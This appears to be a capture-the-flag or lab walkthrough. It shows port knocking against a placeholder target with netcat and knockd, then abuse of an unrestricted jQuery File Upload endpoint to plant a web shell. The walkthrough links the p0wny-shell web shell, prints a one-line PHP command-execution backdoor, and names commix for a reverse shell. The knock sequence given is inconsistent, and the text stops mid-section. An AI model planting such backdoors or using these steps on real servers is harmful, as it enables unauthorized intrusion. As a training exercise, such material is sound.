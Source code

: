 ```
> 

## Port Knocking
After severals nmap attempts, we found that port 80 was accidentally opened. Why...?
Port knocking can be a possible action, because the port sequence was configured to 193, 550, 487.
Then after the nmap ran serveral times, The sequence is valid
```
First nmap: 193 and 550 was knocked as a sequence
Second nmap: 487 was knocked as a sequence
```

NetCat method

```
$ nc -v TARGET_IP 193
$ nc -v TARGET_IP 550
$ nc -v TARGET_IP 478
```

Knockd method
```
# apt install knockd -y
$ knockd TARGET_IP 193 550 478
```

Then, The firewall goes down and port 80 is now accessible.

# Shell Injection

In this step, we can upload a backdoor script.

## GET /

Found an open-source web application
```
jQuery-File-Uploader
```

### Hypothesis

 - Default PHP configuration allows the executable script to call system commands.
 - Allowed file types is not configured.

### Upload Shell Script

The link below is a powerful web shell. You can upload this file directly via jQuery File Uploader.
https://github.com/flozz/p0wny-shell/blob/master/shell.php

Or, Manual mathod, One line of PHP code together with ```commix``` can open a reverse shell for you.

shell.php
```
<?php echo exec($_GET['cmd']) ?>;
```
> According to the open-source and its documentation, The default `upload_dir` is located at `./server/php/files`

### Let's Backdoor

https://github.com/commixproject/commix

```